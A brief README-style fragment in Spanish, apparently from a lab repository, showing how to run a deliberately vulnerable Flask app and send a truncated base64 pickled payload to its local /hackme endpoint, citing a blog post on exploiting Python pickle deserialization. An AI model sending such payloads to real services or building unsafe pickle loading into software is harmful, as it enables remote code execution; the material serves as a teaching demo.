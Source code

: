 ### Ejecucion del app.py vulnerable
flask run

### Enviar petición
url -d "pickled=gASVbgAAAAAAAACMBX..." http://127.0.0.1:5000/hackme

[https://davidhamann.de/2020/04/05/exploiting-python-pickle/]
